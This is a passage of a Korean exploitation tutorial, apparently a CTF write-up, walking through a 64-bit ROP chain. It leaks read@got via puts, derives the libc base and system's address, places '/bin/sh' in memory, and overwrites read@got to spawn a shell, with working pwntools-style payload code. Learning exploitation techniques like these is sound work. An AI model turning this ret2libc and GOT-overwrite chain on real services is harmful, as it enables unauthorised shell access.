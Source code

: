 ```python
#####

# puts(read@got)
payload += p64(pop_rdi) + p64(read_got)  # puts(read@got)
payload += p64(puts_plt)                 # puts(read@got) 호출
```

* 기존 **ret**를 `pop rdi read_get puts_plt`를 통해 `puts(read@got)` : **read@got**의 주소를 화면에 출력한다. 

```python
p.sendafter("Buf: ", payload)         # puts()와 read got를 이용해서 read() 주소 출력
read = u64(p.recvn(6)+b'\x00'*2)      # 화면에 출력된 read() 주소를 read에 대입
lb = read - libc.symbols["read"]      # libc base = read 주소 - read symbols
system = lb + libc.symbols["system"]  # system 주소
```

* 처음에 설명드린 것과 같이 등록된 `read, puts, printf`로 함수의 GOT값을 읽고, `system`과의 거리를 구해 `system`의 주소를 넣으면 된다.

* 여태 사용된 payload를 전송하게 된다면, `puts(read@got)`가 되어, `read@got`를 출력하게 된다. 해당 값은 read@got의 값 **0x601030**을 Little Endian으로 출력한다.

* 64bit에서는 8byte 단위로 진행하므로 **\x00**을 두 번 더해 메모리에서 인식할 수 있는 단위로 변경해준다. 이 값을 read의 offset **libc.symbols["read"]**를 빼 LIBC_BASE를 구한다.

* LIBC_BASE에 system의 offset를 더한다면 우리가 원하는 `system`의 주소를 구하게 되는 것이다. 

### 3. "/bin/sh"

바이너리에 `"/bin/sh"`문자열이 존재하지 않기에 버퍼에 주입하거나, libc에 포함된 문자열을 찾는 것이다. **bss**에 `"/bin/sh"`를 넣어 bss를 스택에 넣는 방법이 있지만, 이번에는 버퍼에 직접 입력하고, 참조하는 방식을 진행하겠습니다.

```python
# read("/bin/sh") => system("/bin/sh")
payload += p64(pop_rdi)
payload += p64(read_got + 0x8)    # read 함수의 첫번째 인자 값 ("/bin/sh") read_got+0x8 : read_got 시 사용될 인자
payload += p64(read_plt)              # read("/bin/sh") 호출
```

* read@got를 호출 시 해당 인자를 참조하는 곳이 **read@got+0x8**이다. 따라서, read(`"/bin/sh"`)를 하기 위해 인자가 하나이므로, pop rdi 가젯을 이용하고 해당 인자를 참조할 수 있게 **read@got+0x8**를 넣고 read 호출한다.

### 4. **GOT Overwrite**

```python
# read(0, read@got, 0) => read@got -> system
payload += p64(pop_rdi) + p64(0)      # read(0, , )
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)    # read(0, read@got, 0)
payload += p64(read_plt)        # read(0, read@got, 0) 호출
```

* `read()` 함수는 총 3개의 인자를 받으므로 **pop rdi; pop rsi; pop rdx; ret;**의 가젯이 필요하다. 하지만 ROPgadget으로 확인해보면, 첫번째 인자 받기로 `pop rdi ; ret` 하나와, 두번째 인자 받기로 `pop rsi ; pop r15 ; ret`만 존재한다. (**r15**의 경우는 사용하지 않으므로 어떠한 값을 넣던 상관이 없다.)

* 그렇다면, 우리는 rdx의 값을 변경할 수 없으므로, 기본적으로 rdx의 값이 크기를 바래야한다.(_Ubuntu 20.04에서는 rdx가 **0**으로 고정이 되어있다._) 그렇지 않다면 **libc_csu_init** 기법을 사용해야한다.
